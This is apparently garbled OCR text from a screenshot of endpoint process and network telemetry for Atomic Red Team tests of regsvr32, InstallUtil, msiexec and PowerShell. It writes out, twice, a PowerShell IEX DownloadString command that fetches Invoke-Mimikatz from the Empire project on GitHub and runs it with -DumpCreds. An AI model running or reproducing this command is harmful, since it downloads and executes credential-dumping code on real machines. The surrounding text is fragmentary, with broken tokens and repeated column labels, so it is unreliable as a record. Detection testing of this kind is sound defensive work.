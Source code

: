 atomic-red-team/6965fc15ef872281346d99d5eea952907167dec3/ atomics/T1117/RegSvr32.sct scrobj.dll

network process powershell.exe

regsvr32.exe

raw.githubusercontent.com

"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"

"IEX (New-Object Net.WebClient).DownloadString(

powershell.exe 'https://raw.githubusercontent.com/EmpireProject/Empire/dev/data/ module_source/credentials/Invoke-Mimikatz.ps1');

Invoke-Mimikatz -DumpCreds"

network
process
network process network

explorer.exe services.exe

powershell.exe

raw.githubusercontent.com

"C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe" /?

InstallUtil.exe C:\Users\NEWTSC~1\AppData\Local\Temp\ a3541d3f-a4db-c8b0-dab7-c268095df70e.chm

InstallUtil.exe

10.10.10.10

msiexec.exe C:\Windows\system32\msiexec.exe /V

msiexe c.exLeegitimate Windows

oscp.digicert.com

lolbas revello

event_type parent_process_name process_name command_line

destination

process network

explorer.exe

process powershell.exe

powershell.exe "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"

powershell.exe

go.microsoft.com

"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"

"IEX (New-Object Net.WebClient).DownloadString(

powershell.exe

